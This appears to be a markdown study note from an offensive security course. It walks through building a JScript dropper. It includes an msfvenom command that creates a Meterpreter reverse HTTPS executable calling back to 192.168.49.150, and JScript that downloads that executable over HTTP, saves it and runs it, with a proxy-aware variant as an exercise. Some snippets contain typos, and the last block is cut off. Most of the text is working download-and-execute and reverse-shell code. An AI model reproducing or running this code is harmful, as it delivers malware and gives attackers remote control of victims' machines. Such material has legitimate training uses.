

## JScript dropper
We'll expand our usage of Jscript to create a dropper that downloads a Meterpreter executable from our Kali Linux web server and executes it.

We will first create a simple 64-bit meterpreter reverse https executable and save it to kali web root with the following command:
```sh
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.49.150 LPORT=443 -f exe -o myshell.exe
```

We will now start with a simple HTTP GET request from Jscript.
We can use MSXML2.XMLHTTP object based on Microsoft's XML Core Services and it's associated XML parser.

We use CreateObject method of the Windows Script to instantiate the MSXML2.XMLHTTP object, and use open and send methods to perform an HTTP GET request.

The _Open_ method will be taking 3 arguments, the request method, the url and a boolean that indicates if the request should synchronous.

The code will be as follows
```JavaScript
var url = "http://192.168.49.150/myshell.exe"
var Object = Wscript.CreateObject('MSXML2.XMLHTTP');

Object.Open('GET', url, false);
Object.Send();
```

We will now proceed with 2 steps:
1. Check if the HTTP GET request was successful.
				- We use the status property of the MSXML2.XMLHTTP object
				- We compare it to the status code of the request
2. We instantiate a stream object and copy the response into it.
				- We use the _stream_ object from the ADODB.strean through the _CreateObject_ method.
				- We invoke _Open_ on the stream object and begin editing the properties of the stream
				- We first set the type property to '1' to indicate we're using binary content.
				- We then call the _Write_ method to write the contents of the response to the stream variable with the ResponseBody method of MSXML2.XMLHTTP
				- Finally, we reset the _Position_ to "0" to instruct the Stream to point to the beggining of it's content.

```JavaScript
if (Object.Status == 200)
{
var stream = Wscript.Object('ADODB.stream');

stream.Open();
stream.Type(1);
stream.Write(Object.ResponseBody);
stream.Position = 0;
```

We finally create a file using the SaveToFile method of the ADODB.stream object.
The method takes 2 arguments:
1. The filename
		- we set it to MyShell.exe
2. Save options
		- We set this to the numeric value of "2" to indicate a file overwrite.

We also close the stream object:
```JavaScript
stream.SaveToFile("myshell.exe", 2);
stream.Close();
```

To put it all together we use WSH shell to run our executable:
```JavaScript
var r = new ActiveXObject("Wscript.Shell").Run("myshell.exe");
```


Our Final code looks like so:
```JavaScript
var url = "http://192.168.49.150/myshell.exe"
var Object = WScript.CreateObject('MSXML2.XMLHTTP');

Object.Open('GET', url, false);
Object.Send();

if (Object.Status == 200)
{s
    var Stream = WScript.CreateObject('ADODB.Stream');

    Stream.Open();
    Stream.Type = 1;
    Stream.Write(Object.ResponseBody);
    Stream.Position = 0;

    Stream.SaveToFile("myshell.exe", 2);
    Stream.Close();
}

var r = new ActiveXObject("WScript.Shell").Run("myshell.exe");
```

We get a shell back:


## Exercise
We need to make the communication proxy-aware, we can do this with the [_setProxy_](https://docs.microsoft.com/en-us/previous-versions/windows/desktop/ms760236%28v%3dvs.85%29) method of the oSrvXMLHTTPRequest object.

We start by instantiating another object of MSXML 6.0 as 3.0 does not support proxy, we then use the setProxy method which takes 3 arguments:
1. [proxySetting](https://docs.microsoft.com/en-us/previous-versions/windows/desktop/ms760236%28v%3dvs.85%29#remarks)
2. The proxy server and the port we'll be using
3. Any host that can go through the proxy

Our edited code looks like so:
```JavaScript
var url = "http://192.168.49.150/myshell.exe"
var Object = WScript.CreateObject('MSXML2.XMLHTTP');
var Proxy = WScript.CreateObject('MSXML2.ServerXMLHTTP.6.0');

Proxy.setProxy(2, "http://192.168.150.12:3128/");
Object.Open('GET', url, false);
Object.Send();

............
- ```


